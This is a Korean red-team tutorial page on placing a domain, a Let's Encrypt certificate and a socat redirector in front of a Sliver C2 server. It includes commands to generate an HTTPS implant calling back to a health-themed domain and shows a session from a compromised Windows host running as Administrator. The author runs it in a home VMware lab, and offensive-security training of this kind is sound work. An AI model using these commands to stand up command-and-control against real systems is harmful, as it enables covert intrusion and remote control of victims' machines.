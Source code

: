 # 도메인과 리다이렉터 설정

팀 서버, 네뷸라, 그리고 클라우드가 설정됐으니 이제 도메인과 리다이렉터를 설정해주자. 먼저 구입한 도메인에서 A 레코드를 만들고, 서브도메인을 만들어준다. 이 서브도메인은 리다이렉터 서버를 가르킬 것이며, 동시에 C2 프레임워크 리스너의 도착 URL이 될것이다.

아래의 예시는 A 레코드에 info 라는 서브 도메인을 만든 뒤, 그 서브 도메인을 리다이렉터 서버의 공인 아이피주소를 가르키고 있다.&#x20;

![](../../.gitbook/assets/adding-a-record.png)

레코드를 생성 후 조금 기다려본다. 그 뒤 `info.<도메인>`을 DNS 요청해보면 리다이렉터의 아이피가 반환될것이다.

```
┌──(root㉿kali)-[/opt]
└─# nslookup
> info.koreambtihealth.com
Server:         192.168.40.2
Address:        192.168.40.2#53

Non-authoritative answer:
Name:   info.koreambtihealth.com
Address: <리다이렉터-주소> 
> 
```

### TLS와 HTTPS

작전보안을 위해서 비컨과 C2 프레임워크, 그리고 리다이렉터는 모두 HTTPS로 소통할 것이다. 그러기 위해선 서버측에서 TLS 인증서가 필요하다. 도메인을 구입하고 DNS 설정이 모두 끝났으니 `certbot` 을 통해 TLS 인증서를 발급받자.

먼저 certbot을 설치한다.

```
sudo apt update -y 
sudo apt install certbot -y 
```

이후, 포트 80이 닫혀있는지 확인한다. 아마도 전에 실행중이던 socat이 계속 실행중일 것이기 때문에 `ps faux` 등으로 PID를 찾아낸 뒤 프로세스를 죽인다.

```
netstat -tulpna | grep -i 80 
ps faux 
sudo kill -9 <socat-pid>
```

이후 AWS로가 인바운드 HTTP 트래픽이 가능하도록 Security Group을 수정한다. EC2 > Security Groups > (Security Group ID) > Edit Inbound Rule > Allow TCP/80 from Anywhere IPv4 를 해주면 된다.

이후 certbot으로 TLS 인증서를 생성한다.

```
ubuntu@redirector01:~$ sudo certbot certonly --standalone 

Saving debug log to /var/log/letsencrypt/letsencrypt.log
Please enter the domain name(s) you would like on your certificate (comma and/or
space separated) (Enter 'c' to cancel): info.koreambtihealth.com
Requesting a certificate for info.koreambtihealth.com

Successfully received certificate.
Certificate is saved at: /etc/letsencrypt/live/info.koreambtihealth.com/fullchain.pem
Key is saved at:         /etc/letsencrypt/live/info.koreambtihealth.com/privkey.pem

< ... > 

ubuntu@redirector01:~$ 
```

인증서 파일들의 권한을 바꾼 뒤, 팀 서버로 SCP를 이용해 가져온다. 이후, 리다이렉터 서버에서는 인증서 파일을 삭제한다.

```
# 리다이렉터 서버 
sudo cp /etc/letsencrypt/live/info.koreambtihealth.com/fullchain.pem .
sudo cp /etc/letsencrypt/live/info.koreambtihealth.com/privkey.key .
sudo chown ubuntu:ubuntu fullchain.pem
sudo chown ubuntu:ubuntu privkey.key  

# 칼리 리눅스 팀 서버 
┌──(root㉿kali)-[~/redteam/certbot]
└─# scp -i /root/redteam/sshkeys/aws-redirector-ssh ubuntu@redirector:/home/ubuntu/fullchain.pem . 
fullchain.pem  
                                                                                              
┌──(root㉿kali)-[~/redteam/certbot]
└─# scp -i /root/redteam/sshkeys/aws-redirector-ssh ubuntu@redirector:/home/ubuntu/privkey.pem . 
privkey.pem 
```

인증서 발급이 끝났다면 다시 AWS로 가 인바운드 HTTP 트래픽과 관련된 Security Group을 바꿔준다. 실제 레드팀 작전에서 리다이렉트 서버의 80/443 포트에 접속할 호스트/프로세스들은 타겟 호스트를 감염시킨 레드팀의 비컨 프로세스 밖에 없다. 따라서, 타겟 공간의 IP주소들을 먼저 OSINT 등으로 확인한 뒤 그 IP주소들에서만 트래픽을 받도록 화이트리스트 하면 된다.

이 튜토리얼의 경우 공격자와 타겟 공간은 모두 본인 호스트의 VMWare Workstation이다. 따라서 본인의 집 아이피 주소만 인바운드 HTTP 80/443 화이트리스트 한다.

![](../../.gitbook/assets/redirector-final-aws-firewall.png)

마지막으로 리다이렉터 서버에 socat 을 구축해 443 포트로 들어오는 모든 트래픽을 팀 서버로 redirect 시킨다.

```
sudo socat tcp-listen:443,reuseaddr,fork,bind=0.0.0.0 tcp:192.168.100.2:443
```

이제 슬리버 C2 서버와 비컨을 이용해 실제로 리다이렉트가 성공적으로 이뤄지는지 알아본다.

먼저 앞서 생성했던 certbot의 TLS 인증서들을 이용해 HTTPS 리스너를 생성한다.

```
https --cert /root/redteam/certbot/fullchain.pem --key /root/redteam/certbot/privkey.pem
```

이후 에이전트를 만든다.

```
generate --http https://info.koreambtihealth.com -s /root/redteam/hosting
```

타겟 호스트에 에이전트를 옮긴 뒤, 실행한다. 콜백이 리다이렉터를 지나 팀 서버까지 성공적으로 이뤄졌는지 확인한다.

```
[*] Session 00f9b25d ROYAL_LIER - 192.168.100.3:37726 (wkstn01) - windows/amd64 - Tue, 07 Jun 2022 21:54:44 EDT

sliver > sessions

 ID         Transport   Remote Address         Hostname   Username                Operating System   Health  
========== =========== ====================== ========== ======================= ================== =========
 00f9b25d   http(s)     192.168.100.3:37726    wkstn01    WKSTN01\Administrator   windows/amd64      [ALIVE] 
```

슬리버의 세션을 확인해보면 재밌게도 Remote Access 가 피해자 호스트의 아이피주소가 아닌, 리다이렉터의 네뷸라 VPN 아이피주소인 `192.168.100.3` 인 것을 볼 수 있다. 이는 피해자 -> 리다이렉터 -> 팀 서버 형식으로 트래픽이 진행됐기 때문이다. 따라서 슬리버 C2의 입장에서는 어쨌든 비컨이 `192.168.100.3` 리다이렉터 서버에서 온 것 처럼 보이니, 그렇게 출력하는 것이다.

